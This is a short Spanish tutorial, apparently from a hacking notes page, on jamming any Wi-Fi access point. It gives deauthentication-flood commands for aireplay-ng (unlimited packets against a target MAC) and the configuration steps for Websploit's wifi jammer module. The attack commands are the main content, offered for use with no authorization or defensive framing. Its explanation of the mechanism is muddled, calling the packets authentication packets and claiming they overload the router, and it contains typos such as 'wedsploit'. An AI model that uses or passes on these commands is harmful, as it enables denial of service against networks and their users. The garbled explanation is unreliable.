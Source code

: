 # Interferencia (Jamming) de cualquier punto de acceso Wi-Fi

Interferir un punto de acceso Wi-Fi es el acto de interrumpir intencionalmente su señal con otra señal, lo que dificulta o hace imposible que los dispositivos se conecten a la red.

Para poder hacer la interferencia de wifi ,se debe enviar paquetes de autenticación al router ,el router no son capaz de enviar cualquier paquete a los clientes.Y el cliente no puede ser capaz de recibir cualquier paquete desde el router.

**Existen dos** métodos**:**&#x20;

1. **Aireplay-ng**
2. **Websploit**

### Aireplay-ng

Activar el modo monitor&#x20;

Se puede enviar paquetes infinitos&#x20;

```
aireplay-ng -0 0 -a MAC wlan0mon
```

El argumento -0 indica que se enviarán paquetes infinitos. El argumento -a indica la dirección MAC del punto de acceso Wi-Fi objetivo. El argumento wlan0mon indica el nombre del interfaz Wi-Fi en modo monitor.

Cuando Aireplay-ng envía paquetes de autenticación al punto de acceso Wi-Fi objetivo, el punto de acceso se verá obligado a responder a cada paquete. Esto puede sobrecargar el punto de acceso y hacer que sea imposible que los dispositivos se conecten a la red.&#x20;

### Websploit

```bash
wedsploit

#tiene varios modulos el que utilizaremos es el de wireless bluetooth 
show modules
modules use wifi/wifi jammer

#Las opciones que debe configurar son
show options
#BSSID: La dirección MAC del punto de acceso Wi-Fi objetivo.
#ESSID: El nombre de la red Wi-Fi objetivo.
set BSSID 
set ESSID
#Ejecutar
run
```

Comenzará a enviar paquetes de interferencia al punto de acceso Wi-Fi objetivo. Esto puede hacer que sea imposible que los dispositivos se conecten a la red.
